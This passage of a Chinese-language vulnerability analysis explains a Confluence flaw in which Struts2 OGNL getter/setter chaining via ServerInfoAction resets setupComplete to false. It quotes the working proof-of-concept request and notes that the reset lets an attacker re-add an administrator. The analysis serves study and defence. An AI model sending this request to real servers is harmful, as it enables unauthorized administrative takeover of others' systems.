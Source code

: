 关于利用

这里的点就是利用 Struts2 中使用 OGNL 来调用 getter / setter 的特性

需要找一个 Action 类，该类或其父类存在的属性中存在的值可以被利用，或者 setter 中可以触发某些恶意操作

回看 poc

```bash
/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```

找了 com.atlassian.confluence.core.actions.ServerInfoAction 类

```bash
<action name="server-info" class="com.atlassian.confluence.core.actions.ServerInfoAction">
    <result name="success" type="rawText">success</result>
</action>
```

继承了 com/atlassian/confluence/core/ConfluenceActionSupport.class

[![](assets/1699929092-b5693f9646b4ab502765e943a6747d00.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110154330-d7703e68-7f9c-1.png)

其中有一个 bootstrapStatusProvider 属性，其存储的实现类是 BootstrapStatusProviderImpl，之后调用 getApplicationConfig 方法获取`ApplicationConfig`对象，其中保存了 setupComplete 属性用于标识是否 setUp 完成，调用其 setter 改为 false 即可更改 confluence 的安装状态，进而重新添加管理员
